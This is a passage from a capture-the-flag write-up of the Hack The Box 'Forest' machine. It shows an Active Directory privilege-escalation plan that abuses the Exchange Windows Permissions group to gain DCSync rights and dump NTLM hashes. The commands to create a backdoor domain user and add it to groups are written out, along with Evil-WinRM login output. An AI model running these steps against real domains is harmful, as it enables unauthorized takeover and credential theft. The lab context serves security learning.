 In short, I should be able to escalate my permissions to a domain admin by:

1. Create a new user.
2. Add the new user to the `Exchange Windows Permissions` group.
3. On behalf of the new user, grant it the ability to syncrhonize the domain controller which should be sufficient to dump the NTLM hash for each user in the Active Directory forest. 

I went ahead and executed the plan above. As the `svc-alfresco` user:

```
*Evil-WinRM* PS C:\users> net user r0kit h4ckit!! /add /domain
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions" r0kit /add
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net localgroup "Remote Management Users" r0kit /add
The command completed successfully.
```

At this point, I logged into forest as the newly added `r0kit` user:

```
kali@kali:~/htb/boxes/forest/loot$ ~/tools/evil-winrm/evil-winrm.rb -u r0kit -p 'h4ckit!!' -i 10.10.10.161

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\r0kit\Documents> whoami /all

USER INFORMATION
----------------

User Name SID
========= =============================================
htb\r0kit S-1-5-21-3072663084-364016917-1341370565-7603


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes
========================================== ================ ============================================= ==================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
HTB\Exchange Windows Permissions           Group            S-1-5-21-3072663084-364016917-1341370565-1121 Mandatory group, Enabled by default, Enabled group
```
